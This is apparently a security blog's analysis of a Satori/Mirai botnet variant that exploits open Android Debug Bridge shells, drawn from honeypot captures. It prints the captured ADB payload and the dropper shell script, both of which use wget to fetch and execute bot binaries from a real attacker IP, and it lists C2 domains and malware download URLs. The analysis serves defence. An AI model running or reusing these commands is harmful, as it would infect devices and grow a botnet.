 ```yaml
---
title: Satori/Mirai botnet detected
description: Variant of Satori/Mirai detected attacking public available ADB shells
header: Variant of Satori/Mirai detected attacking public available ADB shells
---
```


On the 10th of July at 23:30 UTC we noticed an increased traffic on our [blackhole monitoring](http://sicherheitstacho.eu/start/main) on TCP port 5555. Upon further analysis, we saw a big chunk of this traffic coming from China, USA and the Dominican Republic. In total we gathered **246.434 packets** from **68.361 unique IPs**. Based on the packet details we gathered, we can assume that the packets were generated by a lot of different devices. In addition, the traffic behavior on port 5555 matches the typicall scan behavior of botnets.

<!--more-->

![]({{"/assets/images/adb-botnet-g1.png"|absolute_url}})

### Inspecting the payload and stumbling on old friends

The payload registered and captured by out T-Pot honeypots (35.204) looks like this:

```
CNXN 2 host::OPEN ]+shell:>/sdcard/Download/f && cd /sdcard/Download/;
>/dev/f && cd /dev/; busybox wget http://95.215.62.169/adbs -O -> adbs; sh adbs; rm adbs
```

The first chars of this payload are Android Debug Bridge (ADB) commands, used for initiating a connection to a debug channel. This connection is then used to execute a shell command.

Let's examine the command:

```
>/sdcard/Download/f && cd /sdcard/Download/;
```

Short shell builtin for clearing (or touching) the file `>/sdcard/Download/f` and changing to this folder.

```
>/dev/f && cd /dev/;
```

Same as above, just with a different file (and folder).

```
busybox wget http://95.215.62.169/adbs -O -> adbs; sh adbs; rm adbs
```

Download `adbs` from dropper server, execute it and remove it. The `rm` is used to cover up tracks and only keep the bot/malware in memory.

Searching for this IP reveals it was already [detected some time ago](http://blog.netlab.360.com/botnets-never-die-satori-refuses-to-fade-away-en/) in correlation to the Satori botnet.

### Analyzing the dropped file

The downloaded `adbs` shellscript looks like this:

``` 
#!/bin/sh

n="arm.bot.le mips.bot.be mipsel.bot.le arm7.bot.le x86_64.bot.le i586.bot.le i686.bot.le"
http_server="95.215.62.169"

for a in $n
do
    cp /system/bin/sh $a
    >$a
    busybox wget http://$http_server/adb/$a -O -> $a
    chmod 777 $a
    ./$a
done

for a in $n
do
    rm $a
done
```

This is a simple script to download the malware compiled for different architectures and execute them (all one by one). Dirty approach -- but works.

### Another variant of Satori?

Having a deeper look at the downloaded binaries, this looks like another modified version of Mirai or Satori, adjusted to exploit public available ADB devices. Heading over to VirusTotal, only five engines detect this binary (ELF;Mira-RQ) until now. First date of detection: 2018-07-09 09:20.

![]({{"/assets/images/adb-botnet-vt.png"|absolute_url}})

We can find the same `table_unlock` function mentioned in the [previous linked blog article](http://blog.netlab.360.com/botnets-never-die-satori-refuses-to-fade-away-en/), indicating a variant or at least code shared between the two. Compare this screenshot from the blog post:

![]({{"/assets/images/adb-botnet-tableUnlock2-360.png"|absolute_url}})

With what we can find in the new binary:

![]({{"/assets/images/adb-botnet-tableUnlock2.png"|absolute_url}})

As usualy seen in a Mirai bot, strings are "encrypted" with a simple XOR. Decrypting with `0x31` leads to the following results:

```
LOLNOGTFO – kills bot [1]
KILLATTK - kills any ongoing attacks [1]
GETSPOOFS - ???
GAYFGT – sth. reporting related? [1]
```

And the following domains:
```
i.rippr.cc -> 95.215.62.169 (TXT record)
p.rippr.cc -> 180.101.204.161 (TXT record)
```

[1] Similar commands found [here](http://dosattack.net/2015/09/13/Is-your-router-part-of-a-botnet.html) on a  blog.

## Files

```
1. http://95.215.62.169/i686.bot.le - 1eddee13762d7996c02b4c57fa3f8ffc
2. http://95.215.62.169/arm.bot.le - d01f194c374eebb9235291e34bc0d185
3. http://95.215.62.169/arm7.bot.le - d10c1591aee800a5f37f654f1ecd20a8
4. http://95.215.62.169/x86_64.bot.le - 4e4fc7e7599e5bd07e097a2f313486fe
5. http://95.215.62.169/mips.bot.be - a18b0d1401305588107e58054e6aa2ab
6. http://95.215.62.169/mipsel.bot.le - 9689cc9fe613b735fa1d386dffcdd6d8
7. http://95.215.62.169/i586.bot.le - 61f0bad58d28e73d1ef29b9574d28e41
```

## References

* [http://blog.netlab.360.com/botnets-never-die-satori-refuses-to-fade-away-en/](http://blog.netlab.360.com/botnets-never-die-satori-refuses-to-fade-away-en/)
* [http://dosattack.net/2015/09/13/Is-your-router-part-of-a-botnet.html](http://dosattack.net/2015/09/13/Is-your-router-part-of-a-botnet.html)

